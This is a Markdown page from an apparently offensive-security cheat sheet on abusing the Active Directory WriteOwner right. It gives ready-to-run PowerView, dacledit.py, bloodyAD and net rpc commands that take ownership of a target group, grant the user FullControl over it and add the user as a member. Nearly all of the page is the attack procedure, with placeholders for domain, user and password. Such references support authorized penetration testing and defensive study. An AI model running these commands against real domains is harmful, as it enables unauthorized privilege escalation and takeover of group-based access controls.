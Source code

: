 ```yaml
---
title: "WriteOwner/Own"
date: 2024-7-27
tags: ["WriteOwner", "active driectory", "ad", "Windows", "own", "dacledit"]
---
```


### Abuse #1 : Change owner of the group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Change owner

```console
Set-DomainObjectOwner -Identity <TARGET_GROUP> -OwnerIdentity <TARGET_USER>
```

{{< /tabcontent >}}

### Abuse #2 : Add user to the group

{{< tab set2 tab1 active >}}Linux{{< /tab >}}{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{<  tabcontent set2 tab1  >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add full control permission to the user over the group

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target <TARGET_GROUP> -inheritance -action write -rights FullControl
```

#### 2. Add the user to group

{{< tab set3 tab1 active >}}bloodyAD{{< /tab >}}{{< tab set3 tab2 >}}rpc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
python3 bloodyAD.py -k -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember '<TARGET_GROUP>' '<USER>'
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
kinit <USER>
```

```console
sudo ntpdate -s <DC> && net rpc group addmem '<TARGET_GROUP>' '<USER>' -U '<USER>' --use-kerberos=required -S <DC> --no-pass
```

{{< /tabcontent >}}

#### 3. Check

```console
sudo ntpdate -s <DC> && net rpc group members '<TARGET_GROUP>' -U '<USER>' --use-kerberos=required -S <DC> --no-pass
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add user to group

```console
Add-DomainObjectAcl -TargetIdentity <TARGET_GROUP> -PrincipalIdentity '<DOMAIN>/<USER>' -Rights All -DomainController <DC> -Credential $cred
```

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

#### 4. Check

```console
Get-DomainGroupMember -Identity <TARGET_GROUP> -Domain <DOMAIN> -DomainController <DC> -Credential $cred | fl MemberName
```

```console
# Or
net user <USER>
```

```console
# Exit current sessions or re-login
whoami /groups
```

{{< /tabcontent >}}
